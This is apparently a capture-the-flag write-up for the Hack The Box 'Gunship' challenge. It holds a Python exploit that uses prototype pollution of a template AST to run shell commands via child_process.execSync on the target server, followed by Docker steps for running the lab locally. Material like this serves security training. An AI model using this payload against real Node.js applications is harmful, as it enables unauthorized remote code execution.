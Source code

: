 ref:- 
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution
https://portswigger.net/web-security/prototype-pollution
https://app.hackthebox.com/challenges/Gunship



```python
import requests
TARGET_URL = 'http://94.237.63.83:39617'
# TARGET_URL = 'http://127.0.0.1:1337'
newJSON={
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}}
oldjson={
"artist.name":"Gingell",
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`ls > /app/static/out`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
}
# make pollution
r = requests.post(TARGET_URL+'/api/submit', json = newJSON)
print(r.status_code)
print(r.text)
print(requests.get(TARGET_URL+'/static/out').text)
```

![protoPopulationOutput.png](protoPopulationOutput.png)


#### with docker
download docker file from htb

###### build
```bash
sudo docker build -t web_gunship .
```

###### run it
```bash
sudo docker run -p 1337:1337 web_gunship
```

If you want to get shell to that docker

```bash
sudo docker ps
```


```
CONTAINER ID   IMAGE     COMMAND                  CREATED         STATUS         PORTS                                       NAMES
e8a996d1906d   gunship   "/entrypoint.sh /usr…"   7 minutes ago   Up 7 minutes   0.0.0.0:1337->1337/tcp, :::1337->1337/tcp   awesome_payne
```

```bash
sudo docker exec -it e8a996d1906d sh
```